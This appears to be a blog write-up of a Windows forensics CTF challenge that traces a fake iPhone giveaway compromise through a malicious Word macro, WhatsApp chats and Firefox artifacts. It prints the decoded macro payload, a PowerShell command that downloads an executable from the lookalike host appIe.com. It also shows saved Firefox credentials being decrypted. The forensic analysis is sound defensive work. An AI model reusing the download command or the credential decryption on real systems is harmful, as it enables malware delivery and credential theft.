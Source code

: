 ```yaml
---
title: Windows Forensics 1
published: true
---
```


![image](https://raw.githubusercontent.com/0xZuk0/matrix/master/assets/Forensic1/banner.jpg)

## Content
1. [Introduction](#introduction)
2. [Challange Scenario](#challange-scenario)
3. [FTK Imager](#ftk-imager)
4. [Macro Analysis](#macro-analysis)
5. [Whatsapp](#whatsapp)
6. [Digging Deeper](#digging-deeper)
7. [Conculsion](#conclusion)





## **Introduction**
In these past few months i've spend a lot of time in forensics and blue teaming. In my learning i came accross a windows forensic challange which taugh me a lot of tools and techniques. So this article is dedicated to share the knowledge which i learned from this challange.

## **Challange Scenario**

>A company’s employee joined a fake iPhone giveaway. Our team took a disk image of the employee's system for further analysis. As a security analyst, you are tasked to identify how the system was compromised."


We have been given a memory image to investigate.

![image](https://raw.githubusercontent.com/0xZuk0/matrix/master/assets/Forensic1/MemoryDump.png)

## **FTK Imager**
First thing to do will be to load the memory dump in FTK Imager to see what we are working with. We can you Autopsy too but for now i'll stick with FTK Imager.

After loading the memory in FTK Imager by clicking on `File -> Add Evidence Item -> Image File -> Select the MemoryDump.ad1`.

We can see that on left window our memory is loaded. We can expand the tree and see what we have. After looking we can tell that this is the memory image of Root Drive of the Victim System.

![image](https://raw.githubusercontent.com/0xZuk0/matrix/master/assets/Forensic1/SystemRoot.png)

After some lateral movements we find some intresting files in the `Downloads`  DIrectory of User Semah. 
1.  IPhone-Winners.doc
2.  Whatsapp.exe

Let's dump the files in out system to continue our investigation.

## **Macro Analysis**
Let's investigate `IPhone-Winners.doc`. To accomplish this task we are going to use [`oletools`](https://github.com/decalage2/oletools)  to analyze if any malicious macro is present inside the document or not.

```powershell
olevbs.exe IPhone-Winners.doc
```

![image](https://raw.githubusercontent.com/0xZuk0/matrix/master/assets/Forensic1/ObfuscatedMacro.png)

We can an obfuscated macro is present inside the doc file. We can manually deobfuscate the code by using python by converting all the ASCII value to Char and Concatinate them to get our deobfuscated output. But for now let's try out `olevba --reveal` flag to automatically decode the code. 
> NOTE : Many time --reveal or --decode flag will not work since APT's uses advance obfuscation techniques which are difficult and time taking to decode.

After decoding we get a clean output.

![image](https://raw.githubusercontent.com/0xZuk0/matrix/master/assets/Forensic1/CleanMacro.png)

We can see that macro is trying to execute an encoded command. After decoding the base64 encoded code we get a `Invoke-WebRequest` Command.

```powershell
Invoke-WebRequest -Uri "http://appIe.com/Iphone.exe" -OutFile "C:\Temp\Iphone.exe" -UseDefaultCredential
```

This command is download malware using WebRequest and Saving the `Iphone.exe` in `Temp` Directory. Listing the Content of Temp folder makes sure that this macro was executed.

![image](https://raw.githubusercontent.com/0xZuk0/matrix/master/assets/Forensic1/IphoneTemp.png)

## **WhatsApp**

Now since we know that this doc file was use to trick the user to download the malware in the system, The question arise how this doc file came to the victim system. It can be email, browser or whatsapp in this case. We saw previously that whatsapp installer was present in the `Downloads` directory. Let's check wheather the whatsapp was indeed installed in the system or not.

After checking the `C:\Users\Semah\AppData\Roaming` we see `WhatsApp` directory is present. Looking inside the Directory we get all the whatsapp artifacts which can help us to investigate further. Let's try to check whatsapp chat's of the user using [`WhatsApp Viewer`](https://en.freedownloadmanager.org/Windows-PC/WhatsApp-Viewer.html).

After opening the WhatsApp Viewer. Go to `Files -> Open` and Select File `C:\Users\Semah\AppData\Roaming\WhatsApp\Databases\msgstore.db` and Select `wa.db` from `C:\Users\Semah\AppData\Roaming\WhatsApp\Databases\wa.db`.

![image](https://raw.githubusercontent.com/0xZuk0/matrix/master/assets/Forensic1/WhatsappSelectDatabase.png)

After clicking ok we can see a chat between the Semah and Attacker.

![image](https://raw.githubusercontent.com/0xZuk0/matrix/master/assets/Forensic1/Chat.png)

And we can also see that the malicious doc file was indeed downloaded from whatsapp.

## **Digging Deeper**

Well we have got plenty of evidence but one last thing to check out is the website where Semah had registered herself for this fake competation since we can see in the chat that attacker tells Semah that she have registerd for competation. So let's check out the browser history and see if we can find the starting point of this whole event.

After visiting `pyb51x2n.default-release` Directory in `C:\Users\User1\Desktop\Danger\Extract\Users\Semah\AppData\Roaming\Mozilla\Firefox\Profiles\pyb51x2n.default-release` where all the browser artifacts are present. 

Since we have to find out the website she registered on. Let's look for browser history. The broswer history and other data of mozilla will be present in `places.sqlite` file. To view this file we can use any DB browser, In this case i'm using [`SQLiteBroswer`](https://sqlitebrowser.org/).

Open the SQLite Browser and load the `places.sqlite` file present in `C:\Users\User1\Desktop\Danger\Extract\Users\Semah\AppData\Roaming\Mozilla\Firefox\Profiles\pyb51x2n.default-release` directory.

After loading the database let's check out `moz_places` table which stores the history. After looking at the table we can see some intresting url
```powershell
1. http://appIe.competitions.com/login.php
2. http://appIe.com/competitions
3. http://appIe.competitions.com/
4. http://appIe.com/IPhone.doc
```
![image](https://raw.githubusercontent.com/0xZuk0/matrix/master/assets/Forensic1/moz_places.png)

After looking at the history we can see a login page. So there is a possibility that Semah password could be stored in `logins.json` where credentials are stored in encrypted form. After checking the `logins.json` in  `C:\Users\User1\Desktop\Danger\Extract\Users\Semah\AppData\Roaming\Mozilla\Firefox\Profiles\pyb51x2n.default-release` directory we get a credential for `https://appIe.com/login.php` login page.

```json
{
  "nextId": 98,
  "logins": [
    {
      "id": 97,
      "hostname": "https://appIe.com",
      "httpRealm": null,
      "formSubmitURL": "https://appIe.com/login.php",
      "usernameField": "",
      "passwordField": "",
      "encryptedUsername": "MDIEEPgAAAAAAAAAAAAAAAAAAAEwFAYIKoZIhvcNAwcECPv8/hjfk/FqBAhlG5ugi3V0OQ==",
      "encryptedPassword": "MEIEEPgAAAAAAAAAAAAAAAAAAAEwFAYIKoZIhvcNAwcECASt9rmLD9faBBgMerISXTJ9HGCAoZVNAixRoVb1GERODeo=",
      "guid": "{adfa3866-1352-4712-91b8-952b2b707b9b}",
      "encType": 1,
      "timeCreated": 1619778504890,
      "timeLastUsed": 1619778504890,
      "timePasswordChanged": 1619778504890,
      "timesUsed": 1
    }
  ]
}
```

To decrypt the password and username we are going to use [`firefox_decrypt`](https://github.com/Unode/firefox_decrypt). 

![image](https://raw.githubusercontent.com/0xZuk0/matrix/master/assets/Forensic1/PasswordDecrypt.png)

## **Conclusion**
From the following evidences we can create timeline of the event which followed to the system compromise.

1. Semah Registered herself into fake apple website for the competition
2. The attacker contacted her in whatsapp and send her malicious doc file
3. Semah opened the doc file which triggered the malicious macro and downloaded the real malware
4. We don't know how the actual malware was triggered. To find this out we may need to analyze the memory dump of volatile memory.


This was a very fun challange. I leaned a lot from this and i'll encourage you to solve this challange by yourself. The link to the CTF site is [`link`](https://cyberdefenders.org/).

Thank you for taking your time to read this and keep investigating.

